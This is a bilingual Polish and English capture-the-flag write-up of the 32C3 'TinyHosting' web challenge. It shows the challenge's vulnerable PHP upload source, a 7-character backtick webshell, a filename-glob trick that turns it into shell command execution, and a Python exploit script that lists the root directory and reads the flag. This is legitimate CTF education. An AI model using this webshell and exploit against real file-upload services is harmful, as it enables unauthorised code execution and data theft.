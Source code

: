 ## TinyHosting (web, 250p, 71 solves)

> A new file hosting service for very small files. could you pwn it?
> 
> http://136.243.194.53/

### PL
[ENG](#eng-version)

Pod http://136.243.194.53/ znajduje się formularz umożliwiający wysyłanie plików na serwer.

W kodzie HTML znajduje się komentarz:

    <!-- <a href="./?src=">src</a>-->

Po dodaniu do url `?src=1` możemy zobaczyć kod strony:

	<?php
		$savepath="files/".sha1($_SERVER['REMOTE_ADDR'].$_SERVER['HTTP_USER_AGENT'])."/";
		if(!is_dir($savepath)){
		    $oldmask = umask(0);
		    mkdir($savepath, 0777);
		    umask($oldmask);
		    touch($savepath."/index.html");
		}
		if((@$_POST['filename']) && (@$_POST['content']) ){
		    $fp = fopen("$savepath".$_POST['filename'], 'w');
		    fwrite($fp, substr($_POST['content'],0,7) );
		    fclose($fp);
		    $msg = 'File saved to <a>'.$savepath.htmlspecialchars($_POST['filename'])."</a>";
		}
	?>

Skrypt pozwala na tworzenie plików z rozszerzeniem .php. Treść jest jednak ucinana do 7 znaków. `<?php ?` generuje `Internal Server Error`.

Używająć krótkiego tagu startowego i pomijająć końcowy możemy wykonać jednoliterowe polecenie: ``<?=`*`;``

Jeżeli stworzymy pliki o nazwach `bash` i `bash2`, `*` rozwinie się do `bash bash2 index.html`. Możemy w ten sposób wykonywać 7 znakowe skrypty shellowe:

	import requests
	import re

	url = "http://136.243.194.53/"
	user_agent = "xxx"

	t = requests.post(url, headers = {'User-agent': user_agent }, data = {"filename":"zzz.php", "content":"<?=`*`;"}).text
	[path] = re.findall('files.*/zzz.php', t)

	requests.post(url, headers = {'User-agent': user_agent }, data = {"filename":"bash", "content":'xxx'})
	requests.post(url, headers = {'User-agent': user_agent }, data = {"filename":"bash2", "content":'ls /'})
	r = requests.get(url+path)

	print r.text

W głównym katalogu znajduje się plik `file_you_want`. Możemy go pobrać poleceniem `cat /f*`. W pliku znajduje się flaga:

    32c3_Gr34T_Th1ng5_Are_D0ne_By_A_Ser13s_0f_5ma11_Th1ngs_Br0ught_T0ge7h3r

### ENG version

Under http://136.243.194.53/ there is a form which allows uploading files.

In page source there is a comment:

    <!-- <a href="./?src=">src</a>-->

After adding `?src=1` to the url php source is printed:

	<?php
		$savepath="files/".sha1($_SERVER['REMOTE_ADDR'].$_SERVER['HTTP_USER_AGENT'])."/";
		if(!is_dir($savepath)){
		    $oldmask = umask(0);
		    mkdir($savepath, 0777);
		    umask($oldmask);
		    touch($savepath."/index.html");
		}
		if((@$_POST['filename']) && (@$_POST['content']) ){
		    $fp = fopen("$savepath".$_POST['filename'], 'w');
		    fwrite($fp, substr($_POST['content'],0,7) );
		    fclose($fp);
		    $msg = 'File saved to <a>'.$savepath.htmlspecialchars($_POST['filename'])."</a>";
		}
	?>

Page doesn't block creating files with .php extension. The content is limited to 7 chars though. `<?php ?` generates `Internal Server Error`. 

By using short start tags and ommiting end tag it's possible to execute single char shell command:  ``<?=`*`;``

If we create two files: `bash` and `bash2`, `*` will expand to: `bash bash2 index.html`. This way we can execute 7 char shell scripts:

	import requests
	import re

	url = "http://136.243.194.53/"
	user_agent = "xxx"

	t = requests.post(url, headers = {'User-agent': user_agent }, data = {"filename":"zzz.php", "content":"<?=`*`;"}).text
	[path] = re.findall('files.*/zzz.php', t)

	requests.post(url, headers = {'User-agent': user_agent }, data = {"filename":"bash", "content":'xxx'})
	requests.post(url, headers = {'User-agent': user_agent }, data = {"filename":"bash2", "content":'ls /'})
	r = requests.get(url+path)

	print r.text

In root directory there is a file named `file_you_want`. We can get its contents with `cat /f*`. This file contains the flag:

    32c3_Gr34T_Th1ng5_Are_D0ne_By_A_Ser13s_0f_5ma11_Th1ngs_Br0ught_T0ge7h3r

